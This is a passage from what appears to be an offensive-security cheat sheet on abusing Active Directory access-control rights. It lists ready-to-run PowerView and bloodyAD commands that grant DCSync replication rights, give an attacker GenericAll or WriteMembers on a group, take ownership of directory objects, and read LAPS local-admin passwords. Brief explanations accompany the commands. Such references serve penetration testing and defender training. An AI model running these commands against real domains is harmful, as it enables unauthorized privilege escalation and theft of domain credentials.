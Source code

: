 		Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
		```
  
* WriteDACL on Group:
	* Windows/Linux:
		```ps1
		bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' add genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
		
		# Remove right
		bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' remove genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
		```
	* Windows only:
		```ps1
		# Using native command
		net group "INTERESTING_GROUP" User1 /add /domain
		# Or with external tool
		PowerSploit> Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
		```

## WriteOwner

An attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they wants. 

* Windows/Linux:
	```ps1
	bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' set owner target_object devil_user1
	```
* Windows only:
	```ps1
	Powerview> Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
	```

This ACE can be abused for an Immediate Scheduled Task attack, or for adding a user to the local admin group.

## ReadLAPSPassword

An attacker can read the LAPS password of the computer account this ACE applies to.

* Windows/Linux:
	```ps1
	bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
	```
* Windows only:
	```ps1
	Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
	```
